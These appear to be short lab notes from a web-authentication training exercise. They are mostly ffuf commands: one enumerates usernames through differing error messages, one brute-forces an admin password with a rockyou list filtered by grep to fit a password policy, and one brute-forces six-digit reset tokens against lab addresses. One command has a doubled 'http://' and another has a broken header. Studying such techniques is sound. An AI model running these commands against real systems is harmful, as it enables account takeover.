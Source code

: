 ____

#  Differing Error Messages

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.254.47:56265/index.php -X POST -d "username=FUZZ&password=invalid" -fr "Unknown user" -H "Content-Type: application/x-www-form-urlencoded"
```

# Brute-Forcing Passwords

- contains at least one upper-case character
- contains at least one lower-case character
- contains at least one digit
- minimum length of 10 characters

```bash
grep '[[:upper:]]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

```bash
ffuf -w ./custom_wordlist.txt -u http://94.237.57.154:37595/index.php -X POST -H "Content-Type: a  
pplication/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password."
```

# Brute-Forcing Password Reset Tokens

```bash
ffuf -w /usr/share/seclists/Fuzzing/6-digits-000000-999999.txt -u http://http://83.136.254.47:36180/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```